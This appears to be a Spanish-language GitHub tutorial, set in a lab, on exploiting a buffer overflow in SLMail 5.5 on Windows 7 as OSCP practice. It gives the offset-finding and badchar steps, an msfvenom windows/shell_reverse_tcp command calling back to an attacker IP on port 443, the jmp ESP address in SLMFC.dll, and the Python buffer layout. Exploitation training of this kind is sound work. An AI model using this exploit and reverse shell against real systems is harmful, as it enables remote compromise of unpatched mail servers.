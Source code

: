 # Buffer Overflow SLMail 5.5

Tutorial de buffer overflow en Windows de 32 bits con el programa SLMail 5.5. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Nota: El tutorial toma como base el video [¿Cómo explotar el Buffer Overflow del OSCP con éxito?](https://www.youtube.com/watch?v=sdZ8aE7yxMk)

Con pattern_create se genera un patron de carácteres 

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern](./img/buffer_pattern.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con SLMail, se pausará el programa darle al botón de play para que se reanude el flujo del programa

![attach](./img/attach.png)

Ejecutar el script en la máquina de atacante. En Immunity Debugger se pausará automaticamente el flujo de programa, en el campo EIP se muestra un dirección la cual sirve para determinar el offset para controlar el EIP.

![image](./img/eip_offset.png)  

con ``` pattern_offset -q dirección ``` se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 2607. 

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![moona_folder](./img/set_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos llamado bytearray.txt, que contiene los carácteres imprimibles. Para transferir el archivo de una maquina otra, desde la maquina atacante usar un servidor samba y con la maquina victima en cmd con el copy 

Maquina atacante

![smb_server](./img/smb_server.png)

Maquina victima

``` copy RutaDelArchivo \\IPmaquinaatacante\smbFolder\ ```

![smb_copy](./img/smb_copy.png)

![code_badchars](./img/badchars.png)

Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\SLMail\bytearray.bin -a direccion ``` para obtener un badchar)

![](./img/badchar_compare.png)


Con el comando ``` !mona bytearray -cpb "\x00\x0a" ``` se genera de nuevo los archivosc de bytearray sin los badchars especificados. Esto se  hace hasta que ya no aparezca ninguno

Una vez obtenidos los badchars ahora se crea un shell code que los omita

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -b "\x00\x0a\0xd" -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge SLMFC.dll
![mona_modules](./img/mona_modules.png)

![module_target](/img/module_target.png)


Se busca la dirección de jmp ESP en el módulo con

```
!mona find -s "\xff\xe4" -m SLMFC.DLL
```

![find_jmp](./img/find_jump_esp.png)

Se comprueba que la dirreción apunte a jmp ESP

![check_dir](./img/find_jump_esp_dir.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ```5f4a358f ->  8f354a5f ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell

```
    offset = b"A"*2607
    eip = b"\x8f\x35\x4a\x5f" #0x5f4a358f
    buffer = offset + eip  + b"\x90"*16 + shell_code
```

![reverse_shell](./img/reverse_shell.png)



